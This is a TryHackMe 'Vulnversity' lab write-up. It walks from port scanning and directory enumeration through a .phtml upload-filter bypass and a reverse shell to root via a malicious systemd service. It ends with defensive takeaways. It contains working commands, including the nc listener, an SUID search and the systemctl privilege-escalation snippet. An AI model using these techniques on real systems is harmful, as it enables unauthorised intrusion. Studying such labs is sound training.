





# TryHackMe: Vulnversity — Writeup

**Category:** Web Exploitation / Linux Privilege Escalation
**Difficulty:** Easy
**Skills Demonstrated:** Full Port Scanning, Web Directory Enumeration, File Upload Filter Bypass, Reverse Shell Handling, SUID/Service-Based Privilege Escalation

---

## Objective

Enumerate a university-themed target, identify a vulnerable file upload feature, gain an initial foothold as a low-privileged web user, and escalate to root.

---

## 1. Reconnaissance

Ran a full TCP port scan with service/version detection and default scripts:

```bash
nmap -A -sC -p- -oN vulnversity.nmap 10.113.175.218
```



**Results:**

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | FTP | vsftpd 3.0.5 |
| 22/tcp | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 139/tcp, 445/tcp | SMB | Samba smbd 4.6.2 |
| 3128/tcp | HTTP Proxy | Squid 4.10 |
| 3333/tcp | HTTP | Apache httpd 2.4.41 (title: "Vuln University") |

Port **3333** stood out as the primary web application — non-standard ports hosting the "real" attack surface are common in CTF-style boxes, so this became the focus.

---

## 2. Enumeration

### 2.1 Directory Bruteforcing

```bash
gobuster dir --url http://10.113.175.218:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```



**Findings:** `/images`, `/css`, `/js`, and — most importantly — **`/internal`**.

### 2.2 Discovering the Upload Functionality

Navigating to `/internal/` revealed a simple file upload form with no visible authentication — a strong candidate for a file-upload-based RCE vulnerability.

---

## 3. Exploitation

### 3.1 Extension Filter Bypass

An initial test uploading a raw `.php` reverse shell was blocked with an **"Extension not allowed"** message, indicating a blacklist-based filter on the server side.

Generated several alternate PHP-executable extensions to test the blacklist's coverage:

```bash
echo "test" > test.php
echo "test" > test.php3
echo "test" > test.php4
echo "test" > test.php5
echo "test" > test.phtml
```

Testing each systematically, `.phtml` — a valid, Apache-executable PHP extension frequently missed by incomplete blacklists — was **not** on the blocked list.

### 3.2 Uploading the Payload

Renamed a PHP reverse shell payload to `shell.phtml` and uploaded it:



The server returned **"Success"**, confirming the bypass worked. Browsing to `/internal/uploads/` confirmed the file was stored and directly accessible — the upload directory itself was not protected from direct access.

### 3.3 Gaining a Reverse Shell

Started a listener and triggered the uploaded payload by requesting it directly:

```bash
nc -lvnp 1234
```



Received a callback as `www-data` (uid=33), confirming remote code execution on the target.

### 3.4 User Flag

Enumerated `/etc/passwd` to identify real user accounts on the box and found a non-system user, `bill`, with a valid shell:

```
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```

```bash
cd /home/bill
cat user.txt
```

✅ **User flag captured.**

---

## 4. Privilege Escalation

### 4.1 Searching for SUID Binaries

```bash
find / -user root -perm -4000 -print 2>/dev/null
```

Reviewed the list of SUID binaries for anything abusable. Alongside standard system binaries, `systemctl` was present and abusable given the current shell's permissions on this box — a well-documented privilege escalation vector via **systemd service creation** (see GTFOBins).

### 4.2 Exploiting systemctl for Root

Created a malicious systemd service that executes a command as root on start:

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF
/bin/systemctl enable --now $TF

cd /tmp
cat output
```



The service executed with root privileges, writing the contents of `/root/root.txt` to a world-readable file in `/tmp`.

✅ **Root flag captured.**

---

## 5. Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| File upload filter used an incomplete extension **blacklist** instead of a whitelist | Allowed `.phtml` payload upload, leading to RCE |
| Uploaded files stored in a publicly accessible, executable directory | Payload could be triggered directly via URL |
| Low-privileged user had rights to manage systemd services | Trivial path to root via a custom `.service` unit |

---

## 6. Key Takeaways

- **Blacklists are inherently incomplete** — a security control that blocks `.php` but not `.phtml`, `.php5`, etc. gives a false sense of safety. Whitelisting allowed extensions is the only reliable approach.
- **Upload directories must never be directly executable** — even a successfully filtered upload becomes dangerous if the storage location itself serves PHP.
- **SUID/sudo binaries aren't just about `find -perm -4000`** — service-management tools like `systemctl` can be just as dangerous as classic SUID binaries when a low-privileged user can control them. Always cross-reference discovered binaries against [GTFOBins](https://gtfobins.github.io/).
- Reinforced the full attack chain: **enumeration → filter bypass → foothold → user → privesc → root**, mirroring a realistic engagement far more than Pickle Rick did.

---

*Room: [TryHackMe — Vulnversity](https://tryhackme.com/room/vulnversity)*
